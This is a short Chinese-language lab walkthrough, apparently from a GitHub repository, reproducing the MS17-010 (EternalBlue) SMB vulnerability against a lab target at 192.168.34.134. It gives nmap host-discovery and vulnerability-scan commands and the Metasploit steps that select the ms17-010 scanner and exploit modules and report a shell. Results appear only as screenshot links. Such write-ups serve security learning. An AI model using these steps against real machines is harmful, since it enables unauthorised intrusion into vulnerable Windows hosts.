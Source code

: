 # MS17-010永恒之蓝漏洞复现

### 1.nmap探测局域网存活主机

```
namp -sP c段地址
```

![image-20230808144140676](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081441816.png)

经排除验证，192.168.34.134为靶机地址

### 2.探测靶机存在漏洞

```
nmap --script=vuln -A -sV -O 192.168.34.134
```

![image-20230808151537854](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081515919.png)

### 3.使用msfconsole利用模块攻击

寻找ms17-010模块

```
search ms17-010
```

![](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081458062.png)

使用扫描模块

```
use 3
set rhost 192.168.34.134
run
```

探测到了

![image-20230808145914642](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081459698.png)

使用exp攻击

```
use 0
set rhost 192.168.34.134
run
```

![image-20230808150242353](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081502429.png)

​															             	 shell

攻击成功

![image-20230808150310719](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081503755.png)

​																				截屏

